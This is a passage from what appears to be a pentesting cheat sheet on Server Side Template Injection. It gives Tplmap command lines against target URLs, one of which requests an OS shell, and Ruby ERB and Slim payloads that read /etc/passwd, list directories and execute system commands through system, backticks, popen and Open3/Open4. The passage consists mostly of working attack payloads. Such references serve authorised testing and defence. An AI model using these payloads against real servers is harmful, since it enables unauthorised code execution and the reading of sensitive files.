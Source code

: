## Tools

Recommended tool: [Tplmap](https://github.com/epinna/tplmap)
e.g:

```powershell
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

## Methodology

![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

## Ruby

### Basic injections

ERB:

```ruby
<%= 7 * 7 %>
```

Slim:

```ruby
#{ 7 * 7 }
```

### Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Code execution

Execute code using SSTI for ERB engine.

```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

